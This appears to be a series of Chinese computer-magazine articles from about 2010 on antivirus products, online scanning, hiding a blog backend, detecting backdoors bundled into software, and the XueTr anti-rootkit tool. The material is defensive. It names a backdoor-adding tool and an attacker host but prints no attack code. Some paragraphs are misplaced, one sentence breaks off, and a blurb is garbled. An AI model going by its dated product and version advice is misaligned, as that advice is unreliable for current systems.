现在来检查一下我们的劳动成果，掩护制作成功了，如图3。可能有的朋友要问了：我们把后台给删除了，那怎么来更新BLOG呢？这个问题很简单，我们可以使用FTP更新BLOG，在那个打掩护的BLOG上写文章，写完后再使用FTP登录到那个空间里把文章弄下来，再使用FTP传到我们真正使用的BLOG里就行了。另外还有一点需要注意，得把两个网站的外表做得比较相像才行啊，要不然很容易被看穿的。FTP使用完后要记得关掉，不然被人得到了你的FTP账号和密码，那就能登录你的FTP空间，那样可就真的被人“黑”了。还有就是，申请空间的账号密码跟FTP和网站后台的登录账号和密码千万不要使用一样的，密码最好使用数字+字母+下划线这样的组合。


另外我的BLOG以前做的是域名解析，没发现什么异常，现在改做URL跳转，结果发现在这样的配置跳转方法下，点击登录管理后，URL还是那个CN顶级域名，如图4、图5。我问了下周围的朋友，结果他们的URL跳转都没有出现这种情况。由于本人水平比较菜，也没有研究出个所以然来，希望有朋友能够为我解答。如果研究成功了，那么即使有人得到了你的后台账号和密码，而你的后台也存在，对方也会登录不成功，这样也可以起到防黑的作用。

以上的方法都是针对一些小黑来说的，如果遇到有经验的网络高手，可能方法就要失效了。本人才疏学浅，知识有限，因此文章难免会有错误和遗漏之处，还希望大家多多指正。

## 小心病毒奇袭防化手册

新的一年马上就要到来，也许每到年底时大家都要忙个不停，特别是电脑病毒和木马，这时也会变得疯狂猖獗起来。为了能渡过一个安稳快乐的新年，何不提前做好准备，给电脑来个全面保护，让病毒独自“杯具”去呢！

### 一、黄金搭档，势不可挡

ESET NOD32 Antivirus 和 360安全卫士貌似是目前使用率最高的两款系统安全软件。我们首先到360的官方网站下载安装360安全卫士，再通过360安装 ESET NOD32 杀毒软件，并在主界面中进行相关设置与扫描。

找到 ESET NOD32 后点击下载并安装。安装过程中会出现输入激活码的对话框，点击“360用户获取免费激活码”按钮后会弹出页面，在其中可获得半年有效激活码，再返回安装程序粘贴并填写姓名与邮箱完成下一步安装。

安装完毕后，在360安全卫士主界面点击“木马”图标，可选择快速扫描或全盘扫描。若发现木马应及时删除，必要时重启后生效。建议开启“实时防护”，在设置中点击“立即开启”，即可获得实时保护、文件变化监控与智能扫描加速等功能。

ESET NOD32 杀毒软件操作简单：先更新病毒库，再进行“计算机扫描”中的“智能扫描”。若有病毒会自动删除或隔离；对可疑文件可上传官网分析。软件还可监控网页木马并及时中断连接。

> 小提示：当电脑已经感染木马，导致360安全卫士无法安装或启动时，我们可以先到360官网下载“360顽固木马专杀大全”来杀毒。有时候360主动防御功能不能开启，使用专杀软件查杀后，再重启电脑就能正常开启了。

可选择快速扫描、自定义扫描和可移动介质扫描，如图11。杀毒的过程与细节我就不多介绍了，每个杀毒软件的操作都是很类似的。

### 二、免费易用，抗毒非凡

CHENOE Antivirus 是一款完全免费的杀毒软件，采用了先进的云端安全技术，实时联动的云端毒库免除了不必要的更新。智能文件防护集成了领先的智能启发式监控，可快速、准确防御未知病毒。在网络安全方面，软件还集成了恶意网站拦截，同时还引进了智能识别加壳技术，可以有效地查杀各类流行壳。

安装好 Antivirus 后打开软件的主界面，所有的功能一目了然，给人以很清爽的感觉，如图9。点击“更新”按钮就可以更新病毒库，此时也会看到电脑的状态是否安全。点击“设置”按钮，我们就可以对软件进行一些选项的设置，如图10：

- 在“杀毒设置”里我们可以选择是否自动清除病毒；还有三个扫描选项（建议全选）。
- 在“系统设置”里我们可以开启文件实时监控与移动介质防护。
- 在“恶意网站屏蔽设置”里开启该功能就可以对网页病毒和一些钓鱼网站进行有效的屏蔽。
- 在“游戏模式设置”里可以设置在我们玩游戏时不受任何弹出窗口的打扰，同时还可以延迟有关软件的升级任务。
- 在“其它设置”里可以给软件设置自己喜欢的个性标题。

点击“病毒查杀”选项，我们可以选择全盘扫描、自定义扫描和可移动介质扫描，如图11。

面对甲流病毒，我们要做好预防工作，以及认真积极地面对。同样，电脑病毒其实也并不可怕（可防、可控、可治）。同学们，快去给自己的电脑打一剂强大的疫苗吧！

（文章中所用到的 ESET NOD32 Antivirus、360安全卫士、CHENOE Antivirus 已收录到光盘中）

## 病毒查杀的综述评

严书陵

现在的病毒是越来越厉害，即使你的电脑中安装有强大的杀毒软件，有时候也会感觉到束手无策。如果哪天我们遇到了这种情况，那么除了重装系统外还有别的选择吗？我觉得在线查杀就是非常不错的一个选择，本文我就向大家推荐几个不错的在线查杀软件。

“贝壳在线杀木马”分为两种不同的扫描方式，即“关键位置扫描”和“系统全盘扫描”，如图1。设置完成后就可以进行扫描了，由于使用了云安全技术，所以扫描速度非常快。当软件扫描完成后，就会将查找出的病毒信息详细地列出来。这时我们就可以根据自己的需要，选择是否立即清除病毒或暂不处理了，如图2。如果我们想要在扫描完成后自动清除病毒的话，可以在扫描前选中“扫描完毕立即自动清除病毒木马”。为了能够更加有效地清除病毒，在清除完成后我们最好是重新启动系统。

### 一、贝壳在线查杀

其实关于病毒的在线查杀，卡巴斯基、瑞星、金山等早就推出了，但是遗憾的是它们只能够免费查毒，如果想要杀毒的话就得支付 money 后才可以操作了。并且传统的在线杀毒软件，首先需要用户安装一个 Active 插件，然后这个插件会自动连接并下载进行病毒分析和查杀的软件包。由于这个软件包的体积非常大，所以下载和安装需要非常长的一段时间，而且在安装完成后还需要把病毒库升级到最新版本后才能够对系统磁盘中的文件进行分析和扫描。事实上传统的在线查杀和在本地电脑中使用杀毒软件进行查杀并没有本质上的区别，最大的不同就是用户的操作界面发生了明显的变化，但是在分析和查杀病毒的时候则和网络没有任何的关系。

最近，“贝壳安全”推出了一款全新的在线查杀软件——贝壳在线杀木马。当我们使用 IE 浏览器打开“贝壳在线杀木马”的网址“http://sd.beike.cn/”，在第一次使用的时候会要求我们安装一个 Active 控件，这个插件的体积只有478K。插件安装完成后就会运行，不需要再下载软件包就可以对系统中的木马病毒进行查杀了。而且为了方便用户以后的使用，在系统的桌面上还会生成一个在线杀毒的快捷方式。“贝壳在线杀木马”之所以不需要下载软件包，是因为该软件使用了目前最新的云安全技术，将所有病毒库信息都存放在了云端服务器中，从而大大减少了扫描软件所占用的磁盘空间。

### 二、金山在线查杀

金山毒霸除了保留了传统的在线杀毒外，最近也推出了基于云安全技术的在线查杀。同样，我们首先使用 IE 浏览器登录“金山在线杀毒”的网页“www.aq100.net”。第一次使用“金山在线杀毒”的话，也会要求用户安装一个功能插件，这个插件的大小只有726K，插件安装完成后，就可以进行扫描操作了，如图3。“金山在线杀毒”提供了三种不同的扫描方式：快速查杀、全盘查杀以及自定义查杀，完全可以满足用户的各种扫描需求。

“金山在线杀毒”使用的病毒分析方式并不是杀毒软件最常用的特征码分析，而是通过黑白名单的方式来进行识别的。由于金山毒霸拥有大量的恶意文件信息库，因此当插件把扫描文件的信息发送到服务器后，服务器就会将这些信息和数据库中储存的信息进行识别对比。虽然“金山在线杀毒”是通过服务器来进行验证判断的，但是也会下载一些病毒库文件到本地电脑中，这样即使没有连接到网络也可以进行病毒的分析扫描了。在扫描的时候一旦发现了病毒文件，就会在扫描窗口的下方显示出具体信息，而且在扫描完成后还会给出一份完整的安全报告，如图4。

通过这份安全报告我们可以得知扫描的文件总数、异常文件总数、扫描时间等，同时在网页上也给出了详细信息、安全级别、修复操作等。这时我们只需要先勾选上扫描出来的病毒，或者是勾选左下角的“全选”，然后点击右下角的“处理选中项”按钮就可以执行对应的清除操作了。清除操作完成后，会提示我们重启计算机后恢复生效。除了正规的文件和病毒信息外，“金山在线杀毒”还可以扫描出系统中的异常文件，然后会将这些文件上传到金山的服务器中，由专业的病毒工程师进行分析判断。

网页里的所有安全漏洞信息，点击“修复选中项”按钮就可以进行下载安装，修复的速度非常快而且效果也非常不错，如图6。同样点击“扫描恶意软件和插件”后的修复按钮，就可以对系统中的恶意插件等进行删除操作了，如图7。

### 三、系统在线检测

如果发现系统中存在病毒的话，在成功清除后我们最好是对系统再进行一番严格的安全检测。如果你的系统中有金山清理专家或者瑞星卡卡的话，就可以利用这些安全软件对系统进行分析操作；而如果系统中没有这些安全软件的话，就可以登录到“金山云安全中心”（www.pc120.com），使用它就可以在线对本地系统进行全面的检查了。不过首先还是需要安装一个插件，这个插件的体积大约为4.43MB，而且它还支持火狐浏览器。

安全控件安装完成后，“金山云安全中心”就会自动对系统做一次全面的体检，同时会给系统安全进行打分并给出非常详细的体检报告，如图5。一份详细全面的系统安全体检报告，有助于我们发现系统所存在的问题，并给出贴心的“立即修复”功能。比如我测试的这个系统就发现了软件安全更新和系统漏洞存在问题，以及扫描恶意软件和插件。我们点击“立即修复”按钮后，页面就会跳转到相应的网页对这些问题进行修复了。

除了进行系统安全漏洞修复外，我们还可以进行其它的系统防护设置，比如点击网页中的“木马防杀”，然后选择“网页防挂马”选项，点击“启用”按钮就可以对浏览器进行防护，这样当用户访问钓鱼网站或挂马网站时就会进行提示，如图8。

此外，目前很多移动设备也成为了病毒的传播源。点击网页中的“U盘病毒免疫”选项，勾选上所有的设置选项，然后选中“启用选中项”就可以起到免疫的效果了，如图9。其实这些功能都是源自“金山清理专家”，所以我们也可以将“金山云安全中心”暂视作“金山清理专家”的在线版。

## 免费杀毒软件瞧瞧

自从360推出免费的杀毒软件以来，“免费”一词就被我们所津津乐道。其实很早以前，网上就有免费的杀毒软件了，只不过这些杀毒软件都是国外的安全厂商推出的，再加上没有中文版可供用户们进行选择，所以国内知道这些杀毒软件的人并不多。今天我就把其中的几个较著名的介绍给大家，以让大家能够更好地选择出适合自己的杀毒软件。

喜欢它的网友戏称为“大A”，因为我们是免费使用的，所以在安装的时候，需要进行用户信息的注册操作。我们只需要按照提示输入性别、姓名、邮箱等信息就行了，如图1。注册完成后也就相应地完成了 Avira 的安装操作，此时不需要重新启动电脑就可以进行使用了。

### 一、来自德国的小红伞

我们从网上下载 Avira AntiVir Personal 的简体中文版。由于这款杀毒软件的名称的第一个字母是大写的 A，所以也被很多用户称为“大A”。

Avira 和其它的杀毒软件一样，在使用前需要先对其进行设置。Avira 的病毒检测识别率非常高，这得益于其强大的高级启发式杀毒引擎。不过这里我要给大家提一个建议：如果是普通的计算机用户，最好是选择启发式中的“低检测级别”选项；如果是有杀毒经验的用户，可以选择“高检测级别”来提高查杀率，如图2。

接下来要设置杀毒软件的检测范围，除了常见的病毒、木马外，Avira 还可以检测钓鱼软件、广告软件、后门软件等，如图3。最后我们来设置杀毒软件的启动方式，如果选择“安全启动”的话可以较早地载入系统，但是可能会延长一些系统的启动时间。所有的设置完成后，Avira 会要求我们对系统进行快速扫描，以便清除系统中已有的病毒文件。

当然在进行病毒扫描前，我们还可以点击右上角的“配置”按钮，首先在弹出的窗口中选择“专家模式”，然后选择列表中的“扫描程序”，接下来将“其他设置”中的“扫描前搜索 Rootkit”选项选中，这样可以更好地检测出系统中的隐藏信息，如图6。

如果我们需要使用杀毒软件的话，可以点击程序栏中的 Avira 软件图标，在弹出的窗口的左侧点击“本地保护”中的“扫描程序”，从窗口列表中选择要进行扫描的项目后，点击工具栏中的“使用所选配置文件启动扫描”按钮，就可以对设置的项目进行病毒分析扫描了，如图4。一旦发现了病毒就会通过声音来提示用户，而且当扫描完成后也会自动弹出窗口，显示病毒的详细情况，如图5。

总的来说，免费版的 Avira 的功能还比较少，总体表现可以说是中规中矩。除了基本的文件防御和磁盘扫描外，其它的安全功能也没有太多的表现。不过我们可以配合360安全卫士、金山清理专家等一起使用，这样搭配起来使用就可以满足普通用户对系统防护的基本要求了。

### 二、来自捷克的 avast!

avast! 同样是一款非常优秀的免费杀毒软件，而且这款杀毒软件很早就有自己的简体中文版了。同样我们从网上下载最新版的 avast!，在安装的时候就可以看到这款软件除了有基本的文件防御外，还包括了邮件防护、网页防护甚至主动防御等，如图7。不过 avast! 在安装的时候捆绑了谷歌的 Google Chrome 浏览器，当然我们可以选择不进行浏览器的安装。avast! 在安装完成后同样不需要重新启动电脑就可以正常运行了。

软件安装完成后，同样点击程序栏中的软件图标，就可以打开软件的操作界面了。通过窗口顶部的标识，可以准确地反映出系统的安全状况。第一次使用 avast! 杀毒软件时，可以免费使用30天的时间；30天以后只需要点击“摘要”中的“立即注册”按钮，在弹出的窗口中输入自己的电子信箱就可以得到注册码了。如果用户是一个游戏迷的话，还可以点击“静默/游戏模式”中的“开”按钮，在弹出的窗口选择“永久打开”就可以了，如图8，这也是目前主流杀毒软件的一个非常常见的功能。

如果我们需要对系统进行扫描的话，可以点击左侧“扫描计划机”中的“立即扫描”。avast! 为用户提供了“快速扫描”“完整的系统扫描”“可移动媒体扫描”以及“选择要扫描的文件夹”等四种扫描方式，我们根据自己的需要选择想要扫描的选项后，点击后面的“开始”按钮就可以进行病毒分析了，如图9。除了杀毒软件常见的磁盘文件扫描外，avast! 还提供了一个开机扫描的功能。“开机扫描”是杀毒软件的一个常见功能，但是这个开机扫描却非常与众不同，因为要扫描的项目都是自定义设置的。点击左侧的“开机扫描”，然后点击“添加”按钮，在弹出的窗口中选择需要扫描的文件夹目录等信息后，点击下方的“立即计划”按钮就设置成功了，如图10。

前面我们在进行软件安装的时候，就提到 avast! 提供了多种系统保护方式。点击窗口左侧的“实时防护”就可以看到这些项目了，如果我们不需要某个防护功能的话，只需要在防护功能列表中选中它，然后在右侧窗口中点击“停止”按钮即可。当然为了更好地进行防范操作，可以点击窗口中的“专家设置”按钮。

这样就可以根据自身情况来进行设置了，比如点击设置窗口中的“压缩程序”，然后选择设置窗口中的“所有压缩程序”选项，如图11。这样杀毒软件在遇到自解压形式的捆绑时，就可以轻松自如地进行文件解压并进行判断操作。除了常见的防御方法外，在目前所有主流的杀毒软件中，avast! 是少有的提供了专业的 P2P 保护的软件，这样可以更好地针对使用电驴或 BT 等软件下载的文件进行病毒防范操作。虽然 avast! 是一款国外的杀毒软件，但是在设置的时候也可以看到很多的中国元素，比如软件也可以针对 QQ 和 BitComet 等国产软件进行保护等，如图12。

avast! 占用系统资源非常低，杀毒速度也非常快，对于那些不喜欢在线购买商业版杀毒软件的用户来说绝对是个“不二选择”。

### 三、来自国内的360杀毒

最后我们当然还需要说一说国产的“360杀毒”，据说该软件目前在国内的占有率已经是第一了。360杀毒软件的安装非常简单，首先我们从官方网站下载一个程序，运行该程序后，它就会自动下载360杀毒软件的安装包并进行安装了，安装完成后它就会提示用户安装一个该公司的“360安全卫士”软件。

360杀毒软件不需要进行注册就可以直接使用了，同样地，要想让它查杀效果好的话，就需要点击程序栏中的360杀毒图标，在弹出的窗口中点击右上方的“设置”选项，然后在弹出的设置窗口中选择“杀毒设置”，将“全盘扫描时附加扫描选项”里面的“扫描Rootkit病毒”选项选中就可以了，如图13。除此以外，360杀毒软件也有“游戏模式”可以选择。设置完成后，点击主窗口中需要的杀毒命令按钮，就可以进行病毒的分析操作了。


相对来说，360杀毒软件的功能比较单一，和小红伞一样，除了文件防护功能外，就再也没有其它任何的防护功能了。不过在进行磁盘文件扫描的时候，360杀毒软件会通过云查杀技术对软件分析出的病毒信息进行二次判断，这样可以有效地避免出现误杀的情况。当然，360杀毒软件的自我防护比较差，通过任务管理器就可以轻而易举地结束它的进程了。

（文章中所涉及到的小红伞、360杀毒软件，已经收录到光盘中，avast! 杀毒软件由于比较大，请读者们直接到 http://dl.pconline.com.cn/html_2/1/66/id=10584&pn=0.html 下载安装）

## 系统防护新选择——金山卫士

> 金山新选择☆  
> 杀毒新体验：  
> 第一的使用体验，免安装  
> 拯救了一种全新的威胁  
> +选择

我们都知道，在电脑中除了要安装杀毒软件来保护系统外，还需要安装一款其它的安全软件进行协同防护。最近网上出现了一款名为“金山卫士”的安全软件，给我们提供了一种全新的选择。本文我就给大家介绍一下“金山卫士”的主要功能，以让大家更好地进行判断和选择。

它是由金山的下属公司“贝壳”发布的，下载安装包只有3.57MB大小，这可比同类的安全软件要小很多。

双击进行“金山卫士”的安装，安装完成后程序会自动对系统进行扫描，这也几乎是安全软件所固定的操作了，如图1。检查的内容包括系统是否有漏洞、是否有恶意插件、是否有木马程序等，一旦发现系统中存在问题，就会使用醒目的红色字体标注出来，我们只需要点击“立即修复”按钮，软件就会在修复窗口里进行相应的修复操作了。


### 一、初次进行安装

首先我们从“金山卫士”的官方网站（www.ijinshan.com）下载它的最新版，这里告诉大家一个小秘密，该软件虽然名为“金山卫士”，但是却和金山毒霸没有任何的关系，因为

### 二、病毒的云查杀

通过软件的主界面我们可以看到，“金山卫士”的功能还比较少，都是一些和系统防护有关的功能。点击上方工具栏中的“查杀木马”，在出现的界面中可以看到“快速扫描”“全盘扫描”和“自定义扫描”三个选项，我们可以根据自己的需要进行选择。由于病毒和木马基本上都是出现在系统的主要目录，所以一般情况下使用“快速扫描”即可，如图2。点击“快速扫描”按钮，软件就会连接到云端服务器，然后对系统的关键位置进行检测，分析完成后如果发现病毒和木马，就会将其详细地显示到窗口列表中，点击右下角的“立即清除”按钮，就可以进行清除操作了，如图3。

清除完成后软件会弹出一个提示窗口，其中包括了扫描所用的时间、扫描的文件个数、发现木马的个数等。这里需要特别提醒大家的是，即使一个病毒和木马也没有发现，也要查看是否发现了未知的文件，如图4。如果“金山卫士”发现了未知文件的话，点击后面的“5分钟判断文件是否安全，立即上报”链接，在弹出的窗口中就可以看到未知文件的信息，点击“上报未知文件”按钮就可以将文件上传给服务器来进行分析和判断了。


稍微等待一会儿后，“金山卫士”就会弹出一个提示框，告诉用户刚才上传的文件是否为病毒和木马，如果是的话就可以立即进行清除操作，如图5。通过测试发现，“金山卫士”的查杀速度比“360安全卫士”要快，这和软件完全采用了云查杀技术有很大的关系，但是它的查杀效果要比“360安全卫士”稍弱一些。另外，软件对未知文件的处理速度还是非常快速有效的。


### 三、漏洞快速修复

点击工具栏中的“修复漏洞”按钮，通过它就可以对系统存在的安全漏洞情况进行分析，毕竟现在修复漏洞已经成为了系统安全的头等大事。漏洞分析完毕后，在列表中就可以看到所有的漏洞信息，包括了漏洞的危害等级、补丁名称、漏洞名称和描述等。另外软件还会把已经安装的漏洞以及已经过期和已经屏蔽的漏洞数量统计出来，如图6。除此之外，软件还专门把不需要的补丁划分到了“可选补丁”，因为这些补丁程序通常不会导致电脑产生安全风险，普通的计算机用户完全可以选择不进行修复。


“金山卫士”将“严重”和“重要”级别的漏洞划分到了高危漏洞的范畴，而且默认是选择了这些漏洞的，所以我们只需要点击窗口下方的“立即修复”按钮。这时软件就会跳转到一个下载窗口，从中可以看到漏洞补丁文件的下载速度，如图7。“金山卫士”针对最新的Windows 7系统进行了优化，因此修复速度要比其它的软件快出很多。补丁文件下载完成后，“金山卫士”就会自动进行安装以修复系统漏洞，漏洞修复完成后重新启动系统，就可以完成对系统漏洞的修复操作了。


### 四、流氓软件清除

目前，传统意义上的流氓软件已经没有了，但是却出现了很多拥有流氓特性的病毒。这些病毒往往会通过修改IE浏览器属性来为某个指定的网站不断地刷新浏览量，或者是通过篡改系统桌面的图标来达到欺骗用户运行特定程序的目的。点击最上方工具栏中的“清理插件”，就可以对系统中的插件进行分析扫描，“金山卫士”会将插件分为危险的、未知的和安全的三种情况。如果发现插件是危险的，在选中这些插件后点击“立即清理”，就可以成功地对这些危险插件进行删除操作了，如图8。


如果用户的IE浏览器属性被修改了，那么可以点击工具栏中的“修复IE”，然后再选择窗口左侧的“IE修复”选项，这样软件就会自动分析出被篡改的属性。如果发现有被篡改的内容后，点击右下角的“一键修复”就可以进行快速修复了，如图9。如果我们对于这些属性情况不了解，还可以选择窗口左侧的“IE设置”选项，在弹出的窗口中根据自己的喜好来设置IE浏览器的首页、IE浏览器默认搜索引擎以及IE浏览器窗口标题等。

### 五、系统实时防护

最后我们再来看看工具栏中的“实时防护”，可以看到“金山卫士”提供的实时防护功能中包括了漏洞防护、关键位置防护、进程防护和优盘防护等。其实除了这些防护操作外，当我们运行一个文件而被判定是病毒后，软件就会弹出一个提示窗口要求用户进行删除。另外，现在有很多木马和病毒都会使用线程插入技术，这样当软件发现有线程试图插入系统进程时，无论这个文件是否安全都会弹出一个提示窗口。如果软件在分析后发现文件是安全的，提示窗口就会弹出绿色的提示信息；如果分析后发现文件是病毒或木马，提示窗口就会弹出红色的提示信息，并且默认要求用户立即对这个文件进行删除操作，如图10。


（文章中所用到的金山卫士已收录到光盘中）

## 菜鸟浅谈后门检测

最近下载了很多软件都发现有后门，由此就联想到我们广大的“机友”，是不是也像我一样中招了，是不是也正郁闷着呢？没关系，小菜我有一些检测后门的方法，在此就分享出来供大家参考参考，或许能解决一些问题。在软件后门的检测中，我们所需要环境是：断网、虚拟机、沙盘等。

### 一、捆绑木马检测法

在软件后门中我们最常见的就是捆绑法了，狡猾的捆绑者将一些木马捆绑到图像、视频等常见的文件中，并起了一个特别吸引人的名称来引起小菜的注意。一旦我们不慎打开了这些软件也就会“中招”了，那我们要如何检测呢？请看招！

#### 第一招：杀毒软件

我使用VB简单地弄了两个文件夹进行演示，这两个文件的名称分别为“木马1.exe”和“软件1.exe”，使用捆绑器捆绑后的名称为“1.exe”，如图1。启动杀毒软件来查杀一下（注意：不要把发现病毒后的处理方式勾选为自动清除哦（**^__^**））。


因为一些重要的文件还可以提取出来研究的）。结果如图2所示，正常情况下，我们看到的是一个文件，而杀毒软件却显示有两个文件，这就说明了存在捆绑的木马。顺便我再说一句，这种方法对资源文件隐藏也有效。


#### 第二招：反捆绑器

我们双击运行反文件捆绑器，点击“...”按钮，选择我们要分析的文件，然后再点击“扫描文件”，如图3所示。我们看到提示“该文件捆绑有2个未知程序”，这就说明该文件捆绑有另一个文件。刚才我说过了“不要把发现病毒后的处理方式勾选为自动删除”，在这里我们就可以使用反捆绑器把捆绑的文件分解出来，点击“分解文件”后就可以分解出来了。


### 二、其它木马检测通用法

作为一个网络安全爱好者，我们也经常会下载一些安全工具来使用，例如啊D注入工具、NB5.5等等。对于这些工具，杀毒软件都会报毒，那么我们该如何检测呢？首先要准备如下工具：IceSword（冰刃）、下载者监视器、WsockExpert、注册表监视器。


我们就开始断网检测，断网是为了防止检测的软件进一步下载新的木马。我使用邪恶后门添加工具给软件1.exe加了个后门，然后打开下载者监视器，点击“开始监视”下面的小方框，就会显示“启动监视成功！”。随后再打开我们需要检测的文件，一打开就发现猫腻了，如图4、图5，下载地址居然是“xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx”，真不知道这是如何实现的！


我们再来看下注册表监视，我使用VB简单地制作了一个写入注册表的小程序，如图6所示。打开注册表监视器，然后我点击了“新建”按钮，注册表监视器马上就弹出了注册表被写入的提示，如图7。恶意用户通常会在我们下载的一些软件的某些程序中加入某个特定的地址，这就是为什么我们一打开程序就会在后台偷偷地访问某些特定地址的原因了。

该如何揪出这些地址呢？这时就要用到WsockExpert了。首先打开我们的演示程序“Wsock Expert 演示.exe”，在WsockExpert中打开我们要抓包测试的程序，步骤如图8所示，然后我们就可以看到抓取到的数据了，发现该程序访问的“后门”地址为hackzhi.org，如图9。


要查看程序连接的IP地址，我们就运行需要检测的程序，使用360网络连接查看器就可以清楚地查看到程序连接的IP地址。

此外，如图10，如果我们是在网吧上网没有安装360，那么可以依次点击“开始”→“运行”，输入cmd打开命令提示符，然后执行 `netstat -an` 来判断是否连接了其它IP。注意在执行这一步的时候最好把所有连接网络的程序都关掉，如图11：


- 后门检测的步骤（在虚拟机中检测）如下：
  1. 关闭杀毒软件等一切安全软件；
  2. 先检查捆绑，如果发现了捆绑则进行反捆绑处理；
  3. 开启文件监视、注册表监视；
  4. 开启抓包工具；
  5. 查看程序连接IP。


最后我再来总结一下：检测的文件中如果发现生成了可疑文件（主要是在 C:\WINDOWS 和 C:\WINDOWS\system32 生成的文件）、有连接可疑IP、添加可疑的启动项，则该程序90%存在后门。随着病毒的不断更新，检测方法也不断深入，这里我只是介绍了冰山一角而已，如果大家有什么更好的方法也记得要写出来分享哦！

（文章中所用到的WSockExpert、下载者监视器、注册表监视器、反文件捆绑器及相关捆绑文件和工程已收录到光盘中）

## 强大的安全辅助工具XueTr

记得在某篇文章中看到作者在介绍ARK工具时提到了XueTr，于是我就从网上下载了一个来试用，结果发现它的功能非常强大，在手工查杀病毒和检查系统安全状态时可以帮上我们的大忙，是一款非常不错的安全辅助工具。

XueTr是linxer编写的一款工作在系统底层的安全辅助工具，截至目前为止，软件的最新版本为0.32，最近的一次更新日期为09年12月20日，它支持最新的Windows 7操作系统。由于软件的功能实在太多，不可能为大家一一详细介绍，因此我主要挑选几个大家在手工查杀病毒和维护系统安全时非常有用的功能来进行介绍。


### 一、进程管理

进程管理是安全辅助工具一个非常重要的功能，我们经常通过查看进程信息来判断系统是否中了木马和病毒等。双击运行XueTr.exe，软件运行后的主界面如图1所示，最上方的一排是软件的功能菜单。大家有没有遇到过这样的苦恼：发现了一个病毒的进程，但使用系统自带的任务管理器却结束不了；有的木马或病毒的进程是隐藏的，使用系统自带的任务管理器根本就看不到进程。对于这些问题，XueTr都可以轻松解决。由于XueTr采用了很多内核技术，工作在ring0层，拥有更高的权限，因此可以结束很多顽固的进程，还可以检测出隐藏进程，让隐藏的进程在XueTr下无处遁形。


软件打开后默认显示的就是进程管理界面，如果有隐藏进程的话会在软件下面提示。在这里我们可以看到进程的映像名称、进程ID、父进程ID、映像路径、文件厂商等基本信息。在任一进程上单击鼠标右键，就会看到如图2所示的操作菜单，允许我们执行的操作非常多，单单对一条进程就有查看进程模块、线程、进程句柄、进程窗口、进程内存、“在进程中查找模块”、“在进程中查找没有数字签名模块”、“强制结束进程”、“结束进程并删除文件”、“校验数字签名”、“暂停进程运行/恢复进程运行”、“复制进程名”、“复制进程路径”、“在线搜索进程名”、“在线分析”、“定位到进程文件”、“查看进程文件属性”、“定位到XT文件管理器”等23项功能。


我们选择“在下方显示模块窗口”后就会像Wsyscheck那样，在软件下面出现一个模块显示窗口，点击一个进程后在模块显示窗口中就会自动显示出这个进程所加载的模块信息，通过查看进程的模块信息就可以发现注入进程的木马了，如图3。“强制结束进程”可以结束掉那些不容易被结束的病毒进程；“校验数字签名”则可以检测文件是否被修改过。选择“在线分析”后就会打开在线病毒扫描网站“http://www.virscan.org/”，然后我们就可以把认为可疑的文件提交给网站，网站就会利用几十款杀毒软件对提交的文件进行扫描。

### 二、内核模块


选择“内核模块”选项，就会列出系统中所有已经加载的模块信息（一般都是驱动文件）。微软的模块是以黑色字体显示，非微软的模块是以蓝色字体显示，如图4，这样非常容易找出可疑的模块。很多木马会添加内核模块，在“内核模块”中找到木马的模块后点击右键，然后选择“删除驱动（文件）”就可以把木马的驱动文件删除了。


### 三、网络监察和管理


图6

我们选择“网络”选项后，默认打开的是“端口”子选项信息，在这儿显示了当前的网络连接情况。如果发现自己的电脑在没有进行网络访问的情况下却莫名其妙地连接到了一个地址，那可就要注意了，如图5。

在这里不仅能显示普通的网络连接，一些木马的隐藏网络连接也同样躲不过XueTr。大家都知道PcShare有驱动隐藏功能，就是在配置服务端程序时选择“驱动隐藏”选项，这样即使服务端在你的电脑上运行了，通过 `netstat -an` 命令也查看不到连接，因为PcShare通过驱动把网络连接给隐藏了，但在XueTr中我们却可以清楚地看到网络连接，如图6。

我们再来看“IE插件”子选项，这里会显示当前的IE插件，通过右键菜单中的功能可以删除不想要的插件，还可以删除注册表中的相应键值。如果你的IE右键菜单中有一些不想要的、多余的选项，还可以通过“IE右键菜单”子选项进行删除。而“Host文件”子选项则显示了你系统中的Host文件的内容，我们可以直接编辑修改文件的内容，编辑好后点“保存”就会保存所做的修改了，如图7。


图7

### 四、注册表

选择“注册表”选项就会打开一个注册表编辑器，有点儿像系统中自带的注册表编辑器。我们在使用XueTr的注册表编辑器时不会出现“权限不够”的问题，但也不要因此就随便修改注册表，伤及无辜那可就不好了。

### 五、文件管理

文件管理也是安全辅助软件的一个非常主要的功能，删除病毒和木马的文件就全靠它了。选择“文件”选项后就打开了XueTr的文件管理器，所有的隐藏文件、系统文件都会在XueTr的文件管理器中显示出来，选中一个文件后点击右键，就会弹出如图8所示的功能菜单。

“强制删除”可以删除正在运行的文件，特别适合用来删除正在运行的病毒和木马文件；“删除后阻止文件再生”可以删除那些守护进程发现文件被删除后就会自动重生文件的病毒和木马。对于特别难以删除的文件，我们还可以选择“添加到重启删除”，让系统在重新启动时删除指定的文件。


图8

### 六、启动项管理

选择“启动项”就打开了启动项管理界面，在这里列出了系统中的启动项，如果发现木马或病毒的启动项后，可以通过右键菜单中的“删除（启动信息）”或“删除（启动信息和文件）”来进行删除，如图9。

### 七、服务管理

选择“服务”选项就会列出系统中的所有服务信息。


图9

# 安全第一

我们可以对服务进行启动、停止、暂停、恢复、重新启动、删除等操作，还可以设置服务的启动类型（自动、手动、禁用），另外也可以把服务定位到注册表中，如图10。

### 八、系统杂项

“系统杂项”包括了“文件关联”和“映像劫持”两个子功能选项。“文件关联”会列出系统中的文件关联信息，如果发现了不正常的文件关联，我们可以选择右键菜单中的“修复”来进行修复，如图11。“映像劫持”会查看系统中是否存在被映像劫持的文件，发现后可以在这里直接删除掉。我的系统中没有被映像劫持的文件，所以劫持数量为0，如图12。

### 九、本工具配置

在这里可以对 XueTr 进行一些配置，设置一些功能选项。XueTr 提供了很多功能选项，比如选中“禁止进程创建”，就可以阻止病毒或木马感染后的进程创建；选中“禁止加载模块”，就可以阻止病毒或木马模块的加载，如图13。

XueTr 的功能实在太多，本文我只是简单地介绍了一下在维护系统安全方面比较有用的功能而已，其它一些比较实用的功能都没有介绍到，就交给大家去使用和发现了。总的来说，XueTr 是一款非常不错的安全辅助工具，在功能上足以和冰刃、WSysCheck 相媲美，另外它还支持最新的 Windows 7 操作系统，可以说是我们手工查杀病毒、维护系统安全的一个得力助手。


图10


图11


图12


图13


## 命令行系统安全助手批处理

